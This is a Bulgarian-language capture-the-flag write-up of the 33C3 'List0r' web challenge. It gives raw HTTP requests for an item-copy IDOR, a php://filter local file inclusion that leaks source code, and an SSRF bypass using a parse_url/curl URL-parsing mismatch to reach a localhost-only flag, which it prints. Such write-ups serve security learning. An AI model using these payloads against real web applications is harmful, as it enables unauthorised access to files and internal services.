

# **List0r** - 400 точки
**33c3ctf/web**


отдалечен уеб сървър: http://78.46.224.80/

Първата уязвима функция която открих се намира във функцията за копиране на item от list-овете който можем да създаваме. 


Уязвимоста ни позволява да правим хоризонтални ескалаций в правата и да копираме чужд item в наш list. 

```
GET /?target=<int(4453)-ID на нашия list>&page=item&action=copy&item=<int-номер на item който искаме да копираме в нашия лист> HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Направих бързо енумериране(и прехвърляне) на 1вите създаде items и ето че този с номер 5 ни издава нещо интересно:


Оказва се обаче че файлът - **reeeaally/reallyy/c00l/and_aw3sme_flag**, не може да бъде достъпен директно с GET заявка към сървъра. 

Файлът трябва да бъде достъпен през localhost

```
403 - Sorry, but this is only accessible from 127.0.0.1
```

Явно трябва да има още уязвими функций по пътя. Такива че да можем да направим  **Local File Inclusion**(LFI)

Такава уязвимост успях да намеря отново посредством **PHP филтри** в:

```
GET /?page=php://filter/convert.base64-encode/resource=index HTTP/1.1
Host: 78.46.224.80
Accept-Encoding: gzip, deflate, sdch
Accept-Language: en-US,en;q=0.8
Cookie: PHPSESSID=bh3hcnmsltvp97oaobcivap6g7
Connection: close
```

Макар и да **НЕ** можем да достъпим флагът през тази функция успяваме да изтеглим всички релевантни за web апликацият [*.php файлове](files/source_code_p400.tar.gz) от сървъра. Забиваме поглед в сорс-кода и му правивм ревю за други уязвимости.

Файлът който представлява най-голям интерес е **functions.php** и по-специално функцията **get_contents($url)**:

```php
function get_contents($url) {
        $disallowed_cidrs = [ "127.0.0.1/24", "169.254.0.0/16", "0.0.0.0/8" ];

        do {
            $url_parts = parse_url($url);

            if (!array_key_exists("host", $url_parts)) {
                die("<p><h3 style=color:red>There was no host in your url!</h3></p>");
            }

            $host = $url_parts["host"];

            if (filter_var($host, FILTER_VALIDATE_IP, FILTER_FLAG_IPV4)) {
                $ip = $host;
            } else {
                $ip = dns_get_record($host, DNS_A);
                if (count($ip) > 0) {
                    $ip = $ip[0]["ip"];
                    debug("Resolved to {$ip}");
                } else {
                    die("<p><h3 style=color:red>Your host couldn't be resolved man...</h3></p>");
                }
            }

            foreach ($disallowed_cidrs as $cidr) {
                if (in_cidr($cidr, $ip)) {
                    die("<p><h3 style=color:red>That IP is a blacklisted cidr ({$cidr})!</h3></p>");
                }
            }

            // all good, curl now
            debug("Curling {$url}");
            $curl = curl_init();
            curl_setopt($curl, CURLOPT_URL, $url);
            curl_setopt($curl, CURLOPT_RETURNTRANSFER, true);
            curl_setopt($curl, CURLOPT_SSL_VERIFYPEER, false);
            curl_setopt($curl, CURLOPT_MAXREDIRS, 0);
            curl_setopt($curl, CURLOPT_TIMEOUT, 3);
            curl_setopt($curl, CURLOPT_PROTOCOLS, CURLPROTO_ALL 
                & ~CURLPROTO_FILE 
                & ~CURLPROTO_SCP); // no files plzzz
            curl_setopt($curl, CURLOPT_RESOLVE, array($host.":".$ip)); // no dns rebinding plzzz

            $data = curl_exec($curl);

            if (!$data) {
                die("<p><h3 style=color:red>something went wrong....</h3></p>");
            }

            if (curl_error($curl) && strpos(curl_error($curl), "timed out")) {
                die("<p><h3 style=color:red>Timeout!! thats a slowass  server</h3></p>");
            }

            // check for redirects
            $status = curl_getinfo($curl, CURLINFO_HTTP_CODE);
            if ($status >= 301 and $status <= 308) {
                $url = curl_getinfo($curl, CURLINFO_REDIRECT_URL);
            } else {
                return $data;
            }

        } while (1);
    }
```
Тази функция се използва от "Настройки на профила"(http://78.46.224.80/?page=profile) в часта където трябва да се посочи URL за сваляне на снимка от отдалечен сървър.

Функцията започва с защита срещу това да бъдат използвани алтернативив на localhost, който не съм сигурен доколко работят защото дори адреси като 127.1.0.1 би трябвало да бъдат приети(защото не е в 127.0.0.1/24). Но като допълнение се прави **reserve lookup**.

Виждаме следните коментари в кода:
* `// no files plzzz` - това посочва че сме на правилен път и може да извикваме всякакъв вид вайлове който да ни бъдат презентирани с `return $data`
* `// no dns rebinding plzzz` - до сега не бях правил **dns rebinding** 
_ПС: и след 20 неуспешни опита, все още не съм правил :)_ 

Следващата интересна част от кода беше функцията [`parse_url()`](http://php.net/manual/en/function.parse-url.php) която след няколко теста разбрах че има пропуски в parsing часта:

Нека вземем примерно валидната **curl** заявка:
```
d3k4:/$ curl -vvv http://u:p@google.com:80@yahoo.com/нещоси

# Kъдето
# u = потребител (случайни данни)
# p = парола (случайни данни)
# google.com = хостът към който ще се прати заявката
# 80 = порт 
# yahoo.com/нещо = това ще бъде прието като path но ще бъде съкратено до /нещо
```  

Сега нека да го сравним с parsing функционалността на **parse_url()**. Резултата на [този скрипт](files/parse_url_test.php) ни дава:

```
initial: http://u:p@127.0.0.1:80@d3k4.com/reeeaally/reallyy/c00l/and_aw3sme_flag 
H=d3k4.com # хостът запазен в $url_parts["host"] променливата
u=u # потребител
pass=p@127.0.0.1:80 # очевидно НЕ е паролата 
path=/reeeaally/reallyy/c00l/and_aw3sme_flag #пътя до файла
```

Тази разлика в parsing-а на подаваните адреси ще ни позволи да заобиколим защитата. Изпращаме следната заявка:



Тази завка успява усешно да премине през защитата, защото lookup ще бъде направен на **d3k4.com** а няма да се обърне внимание на адреса **127.0.0.1** който ще бъде насочена **curl** заявката.

`33C3_w0w_is_th3r3_anything_that_php_actually_gets_right?!???`